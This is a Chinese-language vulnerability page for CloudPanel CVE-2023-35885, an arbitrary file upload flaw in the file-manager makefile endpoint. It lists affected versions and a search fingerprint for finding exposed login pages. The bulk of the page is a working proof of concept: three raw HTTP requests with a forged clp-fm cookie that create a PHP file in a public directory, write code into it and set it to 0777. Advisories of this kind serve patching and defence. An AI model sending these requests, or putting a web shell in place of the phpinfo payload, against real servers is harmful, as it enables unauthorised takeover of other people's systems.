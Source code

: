 # cloudpanel makefile 任意文件上传漏洞 CVE-2023-35885

## 漏洞描述

cloudpanel makefile 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>cloudpanel 2.0.0 >= 2.3.0   </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="CloudPanel | Log In"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697860876206-ea20431d-1864-4b9d-afd4-640872cfbbb0.png)

验证POC

```php
POST /file-manager/backend/makefile HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/&name=Test.php
```

![img](../../../.vuepress/public/img/1697860916548-336c02a9-2244-4ac3-919f-5e719f132953.png)

```php
POST /file-manager/backend/text HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 289
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&content=<?php phpinfo()?>
```

![img](../../../.vuepress/public/img/1697861000240-9a15866a-a714-445e-b742-1f9838ecb848.png)

```php
POST /file-manager/backend/permissions HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&permissions=0777
```

![img](../../../.vuepress/public/img/1697861047684-cd070836-92a3-4b8d-9670-1a71bca48a66-20231108130020918.png)

```php
/Test.php
```